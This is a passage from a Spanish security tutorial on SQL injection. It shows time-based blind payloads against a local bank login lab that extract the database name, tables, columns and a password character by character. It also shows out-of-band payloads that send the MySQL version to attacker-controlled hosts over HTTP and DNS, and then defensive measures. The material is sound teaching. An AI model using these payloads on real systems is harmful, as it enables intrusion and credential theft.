

----
Usuario: admin' AND IF(1=2, SLEEP(5), 0) -- 
Contraseña:
----

* *AND IF(1=1, SLEEP(5), 0)* -> Si la condición 1=1 es verdadera (siempre lo es), el servidor ejecutará SLEEP(5) y causará un retraso de 5 segundos.

===== Payloads

*Obtener el nombre de la base de datos completo*

Como ya sabemos que es *banco* podemos buscar directamente, pero ocurre como en el anterior ataque.

----
Usuario: admin' AND IF(SUBSTRING(DATABASE(),1,1) = 'b', SLEEP(5), 0) -- 
Contraseña:
----

----
admin' AND IF(SUBSTRING(DATABASE(),1,1) = 'b', SLEEP(5), 0) -- 
admin' AND IF(SUBSTRING(DATABASE(),2,1) = 'a', SLEEP(5), 0) -- 
admin' AND IF(SUBSTRING(DATABASE(),3,1) = 'n', SLEEP(5), 0) -- 
admin' AND IF(SUBSTRING(DATABASE(),4,1) = 'c', SLEEP(5), 0) -- 
admin' AND IF(SUBSTRING(DATABASE(),5,1) = 'o', SLEEP(5), 0) -- 
----

* *IF(SUBSTRING(DATABASE(),1,1) = 'a', SLEEP(5), 0)* -> Si el primer carácter es 'a', el servidor esperará 5 segundos (esto es el ataque Time-Based).

- *SUBSTRING(DATABASE(),1,1)* -> Extrae el primer carácter del nombre de la base de datos.

. *DATABASE()* Función de MySQL que devuelve el nombre de la base de datos actual.

*Obtener tablas sobre la base de datos*

En este caso vamos a buscar la tabla *usuarios*

----
Usuario: admin' AND IF(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE() LIMIT 1),1,1) = 'u', SLEEP(5), 0) -- 
Contraseña:
----



----
admin' AND IF(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE() LIMIT 1),1,1) = 'u', SLEEP(5), 0) -- 
admin' AND IF(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE() LIMIT 1),2,1) = 's', SLEEP(5), 0) -- 
admin' AND IF(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE() LIMIT 1),3,1) = 'u', SLEEP(5), 0) -- 
admin' AND IF(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE() LIMIT 1),4,1) = 'a', SLEEP(5), 0) -- 
admin' AND IF(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE() LIMIT 1),5,1) = 'r', SLEEP(5), 0) -- 
admin' AND IF(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE() LIMIT 1),6,1) = 'i', SLEEP(5), 0) -- 
admin' AND IF(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE() LIMIT 1),7,1) = 'o', SLEEP(5), 0) -- 
admin' AND IF(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE() LIMIT 1),8,1) = 's', SLEEP(5), 0) -- 
----

* *SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE()* -> Consulta que selecciona las tablas de la base de datos actual.

* *SUBSTRING(...)* -> Extrae el primer carácter del nombre de la primera tabla.

* *SLEEP(5)* -> Si el primer carácter es correcto (en este caso, 'u'), el servidor hará una pausa de 5 segundos.

*Obtener las columnas de una tabla*

En este caso vamos a buscar la columna *id*

----
Usuario: admin' AND IF(SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name = 'usuarios' LIMIT 1),1,1) = 'i', SLEEP(5), 0) -- 
Contraseña:
----



----
admin' AND IF(SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name = 'usuarios' LIMIT 1),1,1) = 'i', SLEEP(5), 0) -- 
admin' AND IF(SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name = 'usuarios' LIMIT 1),2,1) = 'd', SLEEP(5), 0) -- 
----

* *SELECT column_name FROM information_schema.columns WHERE table_name = 'usuarios'* -> Consulta que selecciona los nombres de las columnas de la tabla 'usuarios'.

*Obtener contraseñas o datos sensibles*

En este caso vamos a buscar la contraseña *admin123* dentro de los columna *password*

----
Usuario: admin' AND IF(SUBSTRING((SELECT password FROM usuarios LIMIT 1),1,1) = 'a', SLEEP(5), 0) -- 
Contraseña:
----

image::assets/blind/time/Contraseña1.png[Contraseña1]

image::assets/blind/time/Contraseña2.png[Contraseña2]

----
admin' AND IF(SUBSTRING((SELECT password FROM usuarios LIMIT 1),1,1) = 'a', SLEEP(5), 0) --
admin' AND IF(SUBSTRING((SELECT password FROM usuarios LIMIT 1),2,1) = 'd', SLEEP(5), 0) --
admin' AND IF(SUBSTRING((SELECT password FROM usuarios LIMIT 1),3,1) = 'm', SLEEP(5), 0) --
admin' AND IF(SUBSTRING((SELECT password FROM usuarios LIMIT 1),4,1) = 'i', SLEEP(5), 0) --
admin' AND IF(SUBSTRING((SELECT password FROM usuarios LIMIT 1),5,1) = 'n', SLEEP(5), 0) --
admin' AND IF(SUBSTRING((SELECT password FROM usuarios LIMIT 1),6,1) = '1', SLEEP(5), 0) --
admin' AND IF(SUBSTRING((SELECT password FROM usuarios LIMIT 1),7,1) = '2', SLEEP(5), 0) --
admin' AND IF(SUBSTRING((SELECT password FROM usuarios LIMIT 1),8,1) = '3', SLEEP(5), 0) --
----

SELECT password FROM usuarios LIMIT 1: Obtiene la primera fila de la columna password de la tabla usuarios.

===== Aclaración

Como hemos podido ver, ocurre como en el caso anterior aunque cambia un poco la sintaxis, por ello recomiendo el uso de scripts en los ataques a ciegas.

=== 3. Out-of-band SQL injection (OOB SQLi)

Los ataques fuera de banda se basan en enviar la información al servidor http o dns del atacante. En nuestro caso, no podemos realizarlos ya que la base de datos debe hacer peticiones externas y al estar en local no se puede, de todas formas, vamos a ver cómo se realizan estos ataques.

Hay que entender que estos ataques se realizan cuando el atacante no puede usar el mismo canal para enviar el ataque y recibir los datos o cuando el servidor responde que es inestable. Normalmente se realiza por HTTP. Y es importante que el servidor no tenga --secure-file-priv, ya que limita la lectura o escritura de atchivos a un directorio específico.

* El atacante realiza una consulta a la web con un payload como los siguientes:

----
- HTTP: ' UNION SELECT NULL,NULL,(...),CONCAT('http://example.com/?data=', @@version) ;-- 

Este payload realiza una inyección SQL y ejecuta una consulta que solicita un archivo en el servidor del atacante. En este caso, la consulta le pide al servidor web de la víctima que realice una petición HTTP a un servidor controlado por el atacante y pase información (en este caso, la versión de MySQL) como parte de la URL.

- DNS: ' UNION SELECT NULL,NULL,(...),@@version INTO OUTFILE '\\\\example.com\\capture.txt' ;--

Similar al anterior, pero en este caso, la inyección SQL hace que la base de datos intente resolver un dominio DNS. La función load_file() o una función similar intenta acceder a un recurso en el dominio controlado por el atacante. Esto puede ser aprovechado para exfiltrar información como la versión de MySQL o el nombre de usuario.
----

* La página web realiza la consulta a la base de datos, pasando el payload del atacante en la consulta SQL.

* Cómo recibe el atacante la información:

----
- HTTP: La base de datos realiza una petición HTTP al servidor del atacante. En este caso, el payload contiene una URL que será solicitada al servidor del atacante, permitiendo que los datos (por ejemplo, la versión de la base de datos) sean enviados como parte de los parámetros de la URL.

Por ejemplo, la base de datos de la víctima hará una solicitud HTTP similar a: http://attacker.com/capture?version=5.7.35

- DNS: El servidor de bases de datos realiza una consulta DNS al dominio controlado por el atacante. El atacante puede ver las consultas DNS que se envían al servidor controlado por él, y en esos registros de DNS podrá ver los datos exfiltrados, como la versión de MySQL o cualquier otra información solicitada en la consulta SQL.

En este caso, el servidor de la base de datos realiza una consulta a un dominio DNS como: 5.7.35.attacker.com

El atacante puede ver esta consulta en su servidor DNS y extraer la información.
----



<<<

== ¿Cómo prevenir?

=== 1. Parametrizar

Las consultas parametrizadas (prepared statements) con variables asociadas (variable binding), son la forma correcta para escribir sentencias SQL. Para ello se define primero todo el código SQL y después se asocia cada parámetro variable. Este tipo de construcción permite a la base de datos distinguir entre código (estructura) y datos (valores) sin importar qué entradas proporcionó un usuario.

Nuestra página está escrita con PHP usando solo una consulta sin preparar. Podemos observar en el siguiente ejemplo cómo sería una consulta preparada en PHP:

.Consulta preparada
[%collapsible]
====
[source,php]
----
<?php
$sentencia = $mbd->prepare("INSERT INTO REGISTRY (name, value) VALUES (:name, :value)");
$sentencia->bindParam(':name', $nombre);
$sentencia->bindParam(':value', $valor);

// insertar una fila
$nombre = 'uno';
$valor = 1;
$sentencia->execute();

// insertar otra fila con diferentes valores
$nombre = 'dos';
$valor = 2;
$sentencia->execute();
?>
----
====

=== 2. Procedimientos almacenados

Los procedimientos almacenados (stored procedures) pueden ayudar a limitar el riesgo asociado a la inyección de código SQL. Estos son código guardado en la base de datos que pueden verse como funciones reutilizables y de acceso rápido por el motor de base de datos. Los procedimientos almacenados también pueden comprobar el tipo de los parámetros de entrada, impidiendo que se introduzcan datos que incumplan el tipo que el campo está diseñado para recibir.

Sin embargo, si fueron programados de forma insegura con ejecución dinámica de SQL el problema seguirá allí. Podemos ver un ejemplo de esto:

.Procedimiento almacenado vulnerable
[%collapsible]
====
[source,sql]
----
CREATE PROCEDURE sp_getProductByCategory 
    @category VARCHAR(50)
AS
BEGIN
    SET NOCOUNT ON;
    
    DECLARE @query NVARCHAR(MAX);
    SET @query = 'SELECT * FROM products WHERE category = ''' + @category + ''' AND released = 1';
    EXECUTE sp_executesql @query;
END
----
====

Al crear una consulta internamente con un valor dinámico que afecta a la estructura, la situación es la misma que invocando SQL por programación. El procedimiento almacenado podría verse así con el parámetro como valor y no como parte de la estructura de la sentencia:

.Procedimiento almacenado 
[%collapsible]
====
[source,sql]
----
CREATE PROCEDURE sp_getProductByCategory 
    @category VARCHAR(50)
AS
BEGIN
    SET NOCOUNT ON;
    
    SELECT * FROM products WHERE category = @category AND released = 1;
END
----
====

=== 3. Validación contra valores permitidos 

Se usa cuando no se puede usar directamente una consulta parametrizada para protegernos contra inyecciones SQL. Esto pasa en ciertos casos donde el valor que viene del usuario no puede ir como parámetro, porque no es un dato como un número o texto, sino que se trata de partes estructurales de la consulta SQL. Por ejemplo, con el nombre de una tabla o columna, o si el orden en una cláusula ORDER BY será ascendente (ASC) o descendente (DESC). En esta situación la defensa más apropiada es validar las entradas de usuario y/o rediseño de la sentencia SQL.

No se debe permitir que el usuario escriba directamente un nombre de tabla o columna que se inserte tal cual en la consulta SQL, porque eso es muy peligroso. Un ejemplo de cómo validar sería usando un switch, como este ejemplo en PHP:

.White List
[%collapsible]
====
[source,php]
----
<?php
$unsafeUserParameter = $_GET['table'] ?? '';

$tableName = '';

// Validamos con una lista de opciones válidas
switch ($unsafeUserParameter) {
    case 'clients':
        $tableName = 'table_clients';
        break;
    case 'sellers':
        $tableName = 'table_sellers';
        break;
    ...
    default:
        throw new Exception("Valor inesperado proporcionado para el nombre de la tabla.");
>?
}

$query = "SELECT * FROM $tableName";
----
====

* Si el usuario manda el valor "clients", lo convierte a "table_clients".
* Si manda "sellers", lo convierte a "table_sellers".
* Si manda cualquier otro valor, lanzas un error.

De esta forma se asegura de que el nombre que se usa en la consulta sea uno de los que se controlan y no algo malicioso.

=== 4. Escapar todas las entradas de usuario 

Esta es una forma de protegerse contra inyecciones SQL, pero no es la más recomendada. De hecho, solo se debe usar si no se puede aplicar otras defensas mejores, como las consultas parametrizadas o la validación contra valores permitidos.

Escapar significa modificar (o transformar) los datos que vienen del usuario para que no puedan romper la consulta SQL ni ejecutar código malicioso. Por ejemplo, si un usuario escribe *' OR 1=1 --*, al escapar esa entrada, la comilla *'* y otros caracteres peligrosos se transforman en versiones seguras que se interpretan como texto normal y no como parte del código SQL.

Esto se puede realizar con bibliotecas en el caso de java. En el caso de Mysql, podemos ver lo siguiente:

Existen dos modos específicos para realizar esto en Mysql:

. *ANSI_QUOTES SQL*: Escapar todos los caracteres *'*, con *''*.

. *MySQL Mode* que hace lo siguiente:
----
NUL (0x00) --> \0
BS  (0x08) --> \b
TAB (0x09) --> \t
LF  (0x0a) --> \n
CR  (0x0d) --> \r
SUB (0x1a) --> \Z
"   (0x22) --> \"
%   (0x25) --> \%
'   (0x27) --> \'
\   (0x5c) --> \\
_   (0x5f) --> \_

todos los demás caracteres no alfanuméricos con valores ASCII
inferior a 256 --> \c donde 'c' es el carácter no alfanumérico original.
----

Otra forma de hacerlo más seguro es convertir el texto del usuario a hexadecimal. Si un atacante intentara inyectar con la típica comilla simple ' y un espacio, el SQL final se vería:

[source,sql]
----
SELECT * FROM products WHERE hex_encode(category) = '2720...'
----

27 es el código ASCII (en hexadecimal) de la comilla simple y 20 el del espacio en blanco. Como la transformación solo genera dígitos numéricos y letras de la A a la F, ningún caracter especial puede causar la inyección.

=== 5. Aplicar el mínimo privilegio:

El principio de menor privilegio consiste en otorgar a la cuenta de base de datos utilizada por una aplicación solo los permisos estrictamente necesarios para su funcionamiento, evitando el uso de cuentas con privilegios elevados como administrador. Esto reduce el impacto de un posible ataque de inyección SQL, ya que limita lo que un atacante podría hacer si lograra explotar la vulnerabilidad. 

Por ejemplo, si la app solo necesita leer datos, se deben otorgar solo permisos de lectura, evitando accesos innecesarios como modificación de tablas o ejecución de comandos críticos. También se recomienda no ejecutar el servicio de base de datos con permisos elevados en el sistema operativo.

=== 6. Web Application Firewall (WAF)

Cómo ya hemos visto en anteriores pecados vuelve a aparecer el WAF, ya que es una herramienta de seguridad que filtra, monitorea y bloquea tráfico HTTP identificado como malicioso que viaja hacia una aplicación que se intenta proteger. Obviamente, no hay que confiarse y apostar solo por esto, ya que los problemas raíz de la aplicación no se solucionan con un WAF y continuamente se hacen públicas técnicas de bypass para WAF de distintas tecnologías y proveedores. 

Esto es solo una herramienta complementaria -> https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF[SQL Injection Bypassing WAF].

----
"Si piensas que la tecnología puede resolver tus problemas de seguridad, entonces no entiendes los problemas ni entiendes la tecnología"

— Bruce Schneier
----